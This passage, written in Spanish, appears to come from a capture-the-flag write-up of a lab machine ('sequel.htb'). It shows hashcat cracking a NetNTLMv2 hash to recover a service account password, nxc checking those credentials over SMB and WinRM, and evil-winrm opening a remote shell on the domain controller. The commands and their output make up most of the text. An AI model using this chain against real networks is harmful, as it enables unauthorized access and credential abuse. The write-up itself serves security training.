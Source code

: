 ```bash
❯ hashcat -a 0 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5891 MB (1024 MB allocatable), 8MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

5600 | NetNTLMv2 | Network Protocol

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

SQL_SVC::sequel:aaaaaaaaaaaaaaaa:e88ef89eb51ddb11681649f6078294fe:010100000000000080cbce391483db01e9c1c347e2fa202900000000010010006d006c004300430052006b0066006d00030010006d006c004300430052006b0066006d00020010006500610050004a007000710057007100040010006500610050004a0070007100570071000700080080cbce391483db01060004000200000008003000300000000000000000000000003000008e95df638ff6f53618e3a9748a9c51690f0ea0b3d458d87764b8c66a702fd6500a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e0033000000000000000000:REGGIE1234ronnie
```

Validaremos a través de `nxc` de las credenciales obtenidas para verificar que podemos autenticarnos correctamente.

Por otro lado, probamos de verificar si teníamos capacidad de conectarnos directamente al `DC` a través de `WinRM`. En e resultado se nos muestra el mensaje como `Pwn3d!`, con lo cual nos confirma de que podemos conectarnos remotamente al equipo con dichas credenciales.

```bash
❯ nxc smb 10.10.11.202 -u 'sql_svc' -p 'REGGIE1234ronnie'
SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.202    445    DC               [+] sequel.htb\sql_svc:REGGIE1234ronnie 
❯ nxc winrm 10.10.11.202 -u 'sql_svc' -p 'REGGIE1234ronnie'
WINRM       10.10.11.202    5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
WINRM       10.10.11.202    5985   DC               [+] sequel.htb\sql_svc:REGGIE1234ronnie (Pwn3d!)
```

A través de `evil-winrm` comprobamos que logramos obtener acceso remoto al `Domain Controller`.

```bash
❯ evil-winrm -i 10.10.11.202 -u 'sql_svc' -p 'REGGIE1234ronnie'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\sql_svc\Documents> 
```
